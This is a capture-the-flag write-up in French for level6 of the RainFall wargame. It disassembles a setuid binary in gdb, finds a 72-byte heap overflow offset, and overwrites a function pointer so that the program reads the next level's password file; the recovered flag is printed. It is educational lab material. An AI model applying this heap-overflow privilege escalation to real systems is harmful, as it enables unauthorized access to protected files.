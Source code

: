 # 06 - Heap buffer overflow 2

- On se connecte en tant que level6:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

```
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$ gdb level6
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```


- Voyons les parties les plus importantes du programme:
```
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
```
> Alloue un bloc de mémoire de 0x40 (64 en décimal) octets dans la heap.

```
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
```
> Alloue un bloc de mémoire de 0x4 (4 en décimal) octets dans la heap.

```
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
```
>`0x8048468 <m>: 0x83e58955`

>Met l'adresse de `<m>` dans la seconde zone mémoire allouée par malloc.

```
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
```
> Copie le contenu du premier paramètre donné au programme dans la première zone mémoire allouée par malloc.

```
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
```
> Tente d'exécuter la fonction `<m>`.


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

```
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```
>`0x80485d1: "Nope"`

>Cette fonction affiche "Nope".

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```
>`0x80485b0: "/bin/cat /home/user/level7/.pass"`

>Cette fonction affiche notre flag.


- Nous cherchons donc à éxecuter la fonction `<n>` plutôt que la fonction `<m>`. Étant donné que la zone mémoire qui stocke l'adresse de la fonction à éxecuter est allouée sur la heap juste après la zone mémoire qui devrait recevoir notre input, et que `strcpy` copie l'intégralité de la source dans la destination, il nous suffit de savoir à partir de combien de caractères l'adresse de cette fonction commence à être réécrite, et d'écrire à sa place l'adresse de la fonction `<n>`.
```
(gdb) b*0x080484d0
```

```
(gdb) r $(python -c "print 'a'*72 + 'BBBB'")
...
(gdb) x $eax
0x42424242:      <Address 0x42424242 out of bounds>
```

```
(gdb) r $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
...
(gdb) x/i $eax
  0x8048454 <n>:       push   %ebp
```

```
level6@RainFall:~$ ./level6 $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```